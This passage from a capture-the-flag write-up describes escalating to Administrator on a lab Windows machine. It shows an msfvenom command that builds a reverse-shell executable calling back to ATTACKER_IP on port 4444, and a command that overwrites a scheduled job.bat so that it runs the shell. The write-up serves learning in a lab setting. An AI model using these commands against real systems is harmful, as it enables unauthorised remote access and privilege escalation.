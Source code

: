 ```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

I then transferred this reverse shell script over to the target machine (to **C:\Log-Management**).

Before we modify job.bat, we need to find a way to run it. We can't directly run it as we are not in the Administrator account but since the file clears event logs, maybe it's being run periodically?

To verify this, let's open Powershell and check running processes using `ps`:

![screenshot19](../assets/images/markup/screenshot19.png)

We can see that `wevtutil` is being run! *(you might have to run `ps` a few times before catching this)* This proves that job.bat is indeed being run periodically.

With the reverse shell script successfully uploaded to **C:\Log-Management**, we can modify job.bat:

```
echo C:\Log-Management\shell.exe > C:\Log-Management\job.bat
```

This will replace job.bat with one single line: 

```
C:\Log-Management\shell.exe
```

What this does is that when job.bat is subsequently executed, it will in turn execute shell.exe, which is our reverse shell script.

I set up a netcat listener on my local machine and after some time, the reverse shell was opened.

*(Note: opening the reverse shell was a long and arduous process as job.bat was constantly being reverted back to its original state with its original contents. Hence, I had to keep modifying it until it was run at the perfect timing before it was reverted)*

![screenshot20](../assets/images/markup/screenshot20.png)

The **root flag** can be found on the desktop of the Administrator user:

![screenshot21](../assets/images/markup/screenshot21.png)
